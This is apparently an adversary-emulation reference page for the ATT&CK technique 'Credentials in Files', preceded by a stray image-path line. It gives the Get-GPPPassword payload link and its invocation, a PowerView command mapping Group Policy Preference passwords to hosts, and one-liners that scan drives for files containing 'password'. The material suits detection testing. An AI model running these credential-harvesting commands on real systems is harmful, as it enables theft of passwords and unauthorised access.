# Credentials in Files

MITRE ATT&CK Technique: [T1081](https://attack.mitre.org/wiki/Technique/T1081)

## Group Policy Preference

[Payload](Payloads/Get-GPPPassword.ps1)
[PowerSploit Source](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

Input:

    Get-GPPPassword -Server EXAMPLE.COM

#retrieve all the computer dns host names a GPP password applies to
    
     PS> Get-DomainOU -GPLink '<GPP_GUID>' | % {Get-DomainComputer -SearchBase $_.distinguishedname -Properties dnshostname}

#using powershell to search file names recursively

    dir -path c:\ -filter *.exe -rec | select fullname -ExpandProperty fullname

#Using dir to search file names recursively

    dir /s /b | findstr -i *.exe

#Using powershell to search in files recursively

    dir -path c:\ -rec -exclude "c:\windows","c:\program files","c:\program files x86" |
    select-string "password"

#Using findstr to search in files recursively

    findstr /s /C:”password" *

